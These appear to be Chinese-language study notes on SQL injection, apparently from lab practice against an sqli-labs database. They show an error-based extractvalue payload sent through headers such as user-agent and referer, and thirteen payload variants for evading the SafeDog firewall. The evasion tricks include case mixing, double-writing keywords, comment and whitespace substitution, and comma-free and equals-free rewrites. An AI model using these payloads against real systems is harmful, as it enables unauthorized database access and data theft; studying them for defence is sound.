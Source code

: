 ##### 	查看数据库信息

​		1.查看情况

​		页面显示(user-agent,referer等）

​		2.判断是查还是增

​		3.刺探数据的步骤同GET

​		' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1'='1

# 绕过安全狗（防火墙）

```
1.大小写绕过
UniOn SelEct

2.双写绕过
uniunionon selselectect

3.编码绕过
'security' === 0x7365637572697479

4.注释符
un/**/ion sel/**/ect

5.空格绕过

%09（水平tab键）%09 (水平tab键）%0a (新建一行)%0c (新建一页)%0d (回车键)%0b (垂直tab键)%a0 (也可以是空格键)[大多数情况用]

6.or and绕过
and == &&
or == ||

7.内联函数
/*!select*/ 1,2,3

8.<>绕过
un<>ion sel<>ect

9.屏蔽逗号
select substr("security",1,3);
select substr("security" from 1 for 3);

union select 1,2,3
union select * from (select 1)a join (select 2)b join (select 3)c;

limit 0,1
limit 0 offset 1

10.sleep屏蔽
and sleep(1)
and benchmark(100000000,1)

11.group_concat屏蔽
select group_concat('x','y');
select concat_ws('','x','y');

12.=屏蔽
使用like rlike regexp <>
id=1' or '1' like '1

13.POST屏蔽#
考虑使用 --空格a 大部分情况用来当空格用的
```